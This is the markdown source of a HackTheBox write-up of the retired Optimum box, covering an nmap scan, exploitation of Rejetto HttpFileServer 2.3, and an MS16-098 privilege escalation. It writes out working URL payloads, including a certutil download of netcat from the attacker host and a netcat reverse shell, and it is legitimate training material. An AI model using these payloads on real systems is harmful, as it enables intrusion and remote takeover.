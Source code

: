 ```yaml
---
layout: default
title: HackTheBox - Beep Writeup
permalink: /htb/optimum
---
```


# Optimum

> **Name:** Optimum
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Optimum](https://www.hackthebox.eu/home/machines/profile/6) was released on 18 Mar 2017 and it is an easy rated Windows box, which makes it a good place for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes during a break from active boxes. When I originally completed this I vaguely remember having issues getting the privilege escalation to work. So this is a good opportunity to revisit and figure out what was causing those issues. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.8 -sC -sV -v -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/optimum/scan-results.png)

So yeah! Not a lot to go on so I guess we need to dive into this web app.


## Enumeration

The first thing I like to do with a web app is to have a browse around as a user and see what there is. In this case it is just a simple file server. 

![File Server]({{site.url}}/assets/optimum/fileserver.png)

By clicking on the server information link at the bottom of the page it directs you to the rejetto website. Valuable information, as now we know it is a rejetto httpfileserver 2.3. It is worth checking if this has any known public exploits. 
![Searchsploit]({{site.url}}/assets/optimum/searchsploit.png)

Quite a few for the version in use, and most of them are remote command execution as well. This could be just the attack path needed to get a foothold. A quick look at a few of the exploits give an idea of what the vulnerability is and how it is exploited. With 34668.txt result from searchsploit giving a good overview of the problem.

>issue exists due to a poor regex in the file ParserLib.pas
>
>```
>function findMacroMarker(s:string; ofs:integer=1):integer;
>begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
>```
>
>it will not handle null byte so a request to 
>
>```http://localhost:80/?search=%00{.exec|cmd.} ```
>
>will stop regex from parse macro , and macro will be executed and remote code injection happen.

This means that if a crafted search query is performed it is possible to break the function and execute your own code. How the other scripts exploit this is by creating a Visual Basic script to download netcat from a webserver in the first request, then a second request to execute that script, and finally a third request to run the netcat reverse shell command. 

## Exploitation

Now rather than diving straight into using one of those scripts lets have a play with it manually and get it working! A nice simple method I use to confirm code execution is to get the target to run the ping command, and watch for the response in tcpdump or wireshark. Looking at the information about the exploit, this should be as easy as:

```https://10.10.10.8/?search=%00{.exec|ping.exe 10.10.14.9.}```

Just remember that if you are not submitting this in a browser to URL encode the space. When you check tcpdump or wireshark you should see the ICMP request and responses. 

![wireshark]({{site.url}}/assets/optimum/wireshark.png)

So with code execution proven, now it is a simple matter of getting a shell up and running. First up is getting netcat uploaded, in previous write-ups I have used a SMB share to get files onto a target. This time we will use certutil. A native binary on Windows which is used for certificate management, but it has the rather handy feature of being able to download files when you use the command with the following flags:

``` certutil -urlcache -split -f <hosting location> <output file> ```

With this exploit the command looks like this:

``` http://10.10.10.8/?search=%00{.exec|certutil.exe -urlcache -split -f http://10.10.14.9/nc.exe C:\windows\temp\nc.exe.} ```

Where the output directory is somewhere that tends to be world writeable. Now all that is needed is to setup a webserver to host the file. My go to is a simple python based one, and I recently moved to the Python3 implementation which can be used with the following command:

``` python3 -m http.server 80 ```

This will setup a webserver on port 80 in the directory you run the command from, so make sure you don't drop it in your root directory or anything silly like that! Now the certutil command can be ran, and the webserver can be monitored for the incoming request. 

![Web Server]({{site.url}}/assets/optimum/simpleserver.png)

Then a listener can be setup using netcat, and the exploit used to launch the reverse shell with the following command:

``` http://10.10.10.8/?search=%00{.exec|C:\windows\temp\nc.exe -e cmd.exe 10.10.14.9 443.} ```

Which will instantly give a shell with command prompt.

![User Shell]({{site.url}}/assets/optimum/user-shell.png)

## Privilege Escalation

Running ``` syteminfo ``` gives a quick overview of the target, and in this case we can see it is Server 2012 R2 and has had 31 hotfixes installed. 

![Systeminfo])({{site.url}}/assets/optimum/systeminfo.png)

If you want to get your hands really dirty you can sit and manually check which patches haven't been applied and see if any of those fix privilege escaltion vulnerabilities. Or you can use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which will take the output of Systeminfo and work out what is missing. This gives an indication of what vulnerabilities are potentially present on the system.

As many updates have been released since this box was launched there is going to be a lot of output with these tools. But the intended path is going to be something from before Mar 2017 in all likelihood. This is a bigger issue if you use the newer version - [wesng](https://github.com/bitsadmin/wesng) which is more useful for modern OS like Windows 10. 

The output from this is huge! Now it's a case of going through the results and finding which one is the best fit. This can take some time, but odds are a lot of these will work. 

The one I used is MS16-098 and can be found in searchsploit. 

![Searchsploit]({{site.url}}/assets/optimum/searchsploit-privesc.png)

Checking over 41020.c there is a comment at the top that links to a pre-compiled binary for the exploit and as this is one of the curated Offensive Security exploits there is an associated level of trust you can place in it, as normally I wouldn't recommend blindly downloading and executing exploits you haven't checked over and compiled yourself. Just so you don't break something!

The binary can be got from:

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

This can be done quickly from the command prompt with wget. 

![Download Exploit]({{site.url}}/assets/optimum/exploit-download.png)

It is then transferred to the target using the certutil method that was used previously. 

``` certutil -urlcache -split -f http://10.10.14.9/ms16-098.exe C:\Users\kostas\Desktop\ms16-098.exe ```

This can then be executed to give us that lovely System shell!

![Privesc]({{site.url}}/assets/optimum/privesc.png)

No issues this time around with the privesc, I have a feeling that the first time around I used a different exploit and probably got stuck in a 32bit vs 64bit issue without realising!
